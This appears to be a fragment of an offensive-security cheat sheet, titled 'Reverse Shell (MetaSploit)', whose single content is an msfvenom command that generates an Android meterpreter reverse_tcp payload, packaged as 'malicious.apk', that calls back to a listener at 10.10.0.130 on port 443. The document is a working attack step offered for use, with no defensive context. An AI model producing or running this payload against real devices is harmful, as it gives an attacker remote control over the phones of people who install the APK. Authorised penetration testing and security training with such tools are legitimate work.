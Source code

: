 # Basic

# **Reverse Shell (MetaSploit)**

```jsx
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.10.0.130 LPORT=443 -o malicious.apk
```